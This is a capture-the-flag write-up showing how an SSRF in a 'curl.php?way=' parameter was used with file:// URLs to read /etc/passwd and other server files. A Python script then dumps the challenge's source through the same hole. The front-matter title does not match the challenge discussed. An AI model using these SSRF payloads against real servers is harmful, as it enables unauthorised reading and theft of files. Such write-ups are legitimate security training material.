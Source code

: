 ```yaml
---
layout: post
title: BackdoorCTF 2018 - DIGILANT-ADMIN
author:
  name: onionpsy
  github: onionpsy
  twitter: -
---
```


# CoinGame

Website rather basic, there's just one input, waiting for an url, and the post button. The post is actually doing a curl with the value passed in the `way` param: `/curl.php?way=<url>`

After some tests, we noticed that we could read server files with the `file://` command. Like that: `curl.php?way=file:///etc/passwd`.
Great, Looks like a [SSRF](https://www.owasp.org/index.php/Server_Side_Request_Forgery).

We kept looking and found one interesting file `curl.php?way=file:///etc/default/tftpd-hpa`:
```
# /etc/default/tftpd-hpa TFTP_USERNAME="tftp" TFTP_DIRECTORY="/home/CoinGame" TFTP_ADDRESS="0.0.0.0:69" TFTP_OPTIONS="--secure —create" 
```
It seems like the "game" was transfered on the server through FTP, in the /home/CoinGame directory.
We tried to find some logfiles that might have helped us find files but we unfortunately found nothing. After a while, We found that a [server-status](https://httpd.apache.org/docs/2.4/mod/mod_status.html) was actually installed on `curl.php?way=http://localhost/server-status`

Between the spam of request, we found some weird queries like: `curl.php?way=file:///home/CoinGame/TouchMonsterFiles.py`. We tried and boom, it worked. It looks like it was the game from the description. After searching for the code on internet, we quickly found the repo on [Github](https://github.com/totheyellowmoon/CoinGame).

After digging the server for a while, we didn't find anything interesting. We decided to dump the project locally and make a diff between the 2 games through a script (don't mind the code pls). `list` was a file containing the list of all the files of the project:

```python
import os
import wget

url = 'http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/'
out = '/tmp/out/'

with open('list') as f: # create the directories
	for line in f:
		dirname = os.path.dirname(out + line)
		if not os.path.exists(dirname):
			try:
				os.makedirs(dirname)
			except Exception as e:
				pass
				
with open('list') as f: # download the files
	for line in f:
		line = line.rstrip()
		try:
			wget.download(url + line, out=out + line)
		except Exception as e:
			print(e)
			pass
```

Once it was downloaded, we just had to make a diff between the 2 folders: `diff --brief -r CoinGame/ /tmp/out/`
```
Files CoinGame/Avatars/ArchmageAntonidusHearthstone#.png and /tmp/out/Avatars/ArchmageAntonidusHearthstone#.png differ
Files CoinGame/Avatars/ChefOgre#.png and /tmp/out/Avatars/ChefOgre#.png differ
Files CoinGame/Avatars/Chevalier_noir#.png and /tmp/out/Avatars/Chevalier_noir#.png differ
Only in /tmp/out/Avatars: curl.php
Files CoinGame/Avatars/Demon#.png and /tmp/out/Avatars/Demon#.png differ
Files CoinGame/Avatars/ForetSauvage#.png and /tmp/out/Avatars/ForetSauvage#.png differ
Files CoinGame/Avatars/Gobelin#.png and /tmp/out/Avatars/Gobelin#.png differ
Files CoinGame/Avatars/Legion#.png and /tmp/out/Avatars/Legion#.png differ
Files CoinGame/Avatars/LeRoi#.png and /tmp/out/Avatars/LeRoi#.png differ
Files CoinGame/Avatars/MaitreOmbre#.png and /tmp/out/Avatars/MaitreOmbre#.png differ
Files CoinGame/Avatars/poseidon#.png and /tmp/out/Avatars/poseidon#.png differ
Files CoinGame/Avatars/RobotAlpha#.png and /tmp/out/Avatars/RobotAlpha#.png differ
Files CoinGame/Avatars/Roi_des_Nains#.png and /tmp/out/Avatars/Roi_des_Nains#.png differ
Files CoinGame/Avatars/SeigneurDragon#.png and /tmp/out/Avatars/SeigneurDragon#.png differ
Files CoinGame/Avatars/SeigneurNoir#.png and /tmp/out/Avatars/SeigneurNoir#.png differ
Files CoinGame/Avatars/Vikings#.png and /tmp/out/Avatars/Vikings#.png differ
Only in /tmp/out/CardFiles: curl.php
Only in /tmp/out/Cards: curl.php
Only in /tmp/out/Decks: curl.php
Only in /tmp/out: dump.txt
Files CoinGame/gameAnimationImages/background1.png and /tmp/out/gameAnimationImages/background1.png differ
Files CoinGame/gameAnimationImages/background2.png and /tmp/out/gameAnimationImages/background2.png differ
Files CoinGame/gameAnimationImages/background3.png and /tmp/out/gameAnimationImages/background3.png differ
Files CoinGame/gameAnimationImages/background.png and /tmp/out/gameAnimationImages/background.png differ
Files CoinGame/gameAnimationImages/Card_face_avant_black.gif and /tmp/out/gameAnimationImages/Card_face_avant_black.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_blue.gif and /tmp/out/gameAnimationImages/Card_face_avant_blue.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant.gif and /tmp/out/gameAnimationImages/Card_face_avant.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant.jpg and /tmp/out/gameAnimationImages/Card_face_avant.jpg differ
Files CoinGame/gameAnimationImages/Card_face_avant_v3.gif and /tmp/out/gameAnimationImages/Card_face_avant_v3.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_v3.jpg and /tmp/out/gameAnimationImages/Card_face_avant_v3.jpg differ
Files CoinGame/gameAnimationImages/Card_face_avant_v4.gif and /tmp/out/gameAnimationImages/Card_face_avant_v4.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_v4.jpg and /tmp/out/gameAnimationImages/Card_face_avant_v4.jpg differ
Only in /tmp/out/gameAnimationImages: curl.php
Only in CoinGame/: .git
Only in CoinGame/photo: bebe-dragon (1).jpg
Only in /tmp/out/photo: curl.php
Only in CoinGame/photo: Demon cornu.jpg
Only in CoinGame/photo: Drag
Only in CoinGame/photo: mangeur de crapau.jpg
Only in CoinGame/photo: Moderne
Only in CoinGame/photo: New
Only in CoinGame/photo: Ogres
Only in CoinGame/photo: petit etre_7247.jpg
Only in CoinGame/photo: portail demoniaque.jpg
Only in CoinGame/photo: portail oblivion.jpg
Only in CoinGame/photo: reve
Only in CoinGame/photo: serpents tournants.jpg
Only in CoinGame/photo: Source de vie.jpg
```
We quickly checked every image and we saw the actual flag on all `backgroundX.png`. 
Done :)